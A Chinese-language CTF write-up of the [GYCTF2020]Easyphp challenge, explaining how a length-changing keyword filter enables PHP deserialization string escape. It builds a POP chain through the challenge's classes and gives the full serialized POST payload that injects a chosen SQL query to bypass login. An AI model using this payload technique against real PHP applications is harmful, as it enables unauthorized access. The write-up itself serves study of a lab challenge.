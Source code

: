 # \[GYCTF2020]Easyphp

## \[GYCTF2020]Easyphp

## 考点

* 反序列化逃逸

## wp

www.zip给了源码

大概的逻辑就是index.php判断有没有登录，登录就转到update.php，没有登录就转到登录页面

在登录页面获取参数，并做黑名单过滤，然后执行`User::login()`

```
preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['***'])
```

在`User::login()`中连接数据库，然后用预编译的方式执行sql语句获取username和password，这里基本上封死了sql注入。如果登录成功就让`$_SESSION['login']`为1，然后跳转到update.php

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');

if($this->id)        $_SESSION['login']=1;
```

再看update.php，先判断`$_SESSION['login']`是否为1，不为1就\*\*`echo`**而不是**`die`\*\*。那后面的代码还可以执行啊。

![](<../../.gitbook/assets/image (19).png>)

然后到`User::update()`，先反序列化`Info`类再实例化`UpdateHelper`

```php
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
```

```php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

这里获取flag的条件是`$_SESSION['login']`为1

```php
if($_SESSION['login']===1){
  require_once("flag.php");
  echo $flag;
}
```

而`$_SESSION['login']`为1要求成功登录，即token为admin或者账号密码正确

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');
if($this->id){
$_SESSION['id']=$this->id;
$_SESSION['login']=1;}
class dbCtrl
{
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
}
```

从`User::update()`入手，它的第一行`$Info=unserialize($this->getNewinfo());`如下，一个典型的逃逸

```php
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
unserialize(safe(serialize(new Info($age,$nickname))));
```

可以利用逃逸，插入UpdateHelper类，触发它的`__destruct()`函数，再去触发User类的`__toString()`，最后触发Info类的`__call()`，让它执行`dbCtrl::login()`，这样就能够控制sql语句，实现登录了

pop链

```php
<?php
class dbCtrl{}
$d = new dbCtrl();
$d->name = "admin";// admin这个用户名是存在的，可以试出来
$d->password = "1";// 与select语句中的密码保持一致，绕过登录

class Info{}
$c = new Info();
$c->CtrlCase = $d;

class User{}
$b = new User();
$b->nickname = $c;
$b->age = 'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';

class UpdateHelper{}
$a = new UpdateHelper();
$a->sql = $b;

echo serialize($a);
// O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

逃逸插入pop链，不断调整`*`或者`union`的数量，让插入pop链的结果符合反序列化条件

```php
<?php
class Info{}
$b = new Info();
$b->age = "123";
$b->nickname = '***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}';


$s = serialize($b);
echo $s."<br>";

function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
echo safe($s)."<br>";
/*
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
*/
```

在update.php中POST

```
age=123&nickname=***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

![](<../../.gitbook/assets/image (26).png>)

这会让`dbCtrl::login()`成功执行，把token赋值为admin。

```php
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
```

再用admin加上任意密码登录即可

![](<../../.gitbook/assets/image (2).png>)
